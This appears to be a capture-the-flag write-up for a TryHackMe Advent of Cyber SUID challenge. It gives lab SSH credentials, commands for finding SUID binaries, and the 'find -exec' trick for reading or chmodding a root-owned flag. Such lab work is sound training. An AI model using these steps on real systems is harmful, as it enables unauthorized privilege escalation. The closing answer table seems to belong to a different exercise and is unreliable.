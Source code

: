 # [Day 8] SUID Shenanigans Writeup
### Tags: `#Linux Privilege Escalation #SUID #GTFOBins`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day8.gif' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.169.45
```

![](imgs/ping.png)

2.) Lets connect to the machine through ssh on port 65534 using username:password holly:tuD@4vt0G*TU

```bash
ssh -p 65534 holly@10.10.169.45
```

![](imgs/ssh.png)

3.) Lets try and find all the binaries with the SUID bit set using the following commands.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

![](imgs/suid.png)

4.) Using the binary "find" and the SUID bit set, we can use the -exec flag to run commands of the owner of the bin. 

```bash
find flag1.txt -exec chmod 777 flag1.txt \;
or
find flag1.txt -exec cat flag1.txt \;
```

![](imgs/find.png)

5.) The binary /usr/bin/system-control looks like a custom file and has the SUID bit set. Lets execute the bin and see if we can root on the machine.

![](imgs/root.png)

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | how many TCP ports under 1000 are open? | 3 |
| Task #2 | What is the name of the OS of the host? | Linux |
| Task #3 | What version of SSH is running? | 7.4 |
| Task #4 | What is the name of the file that is accessible on the server you found running? | interesting.file |






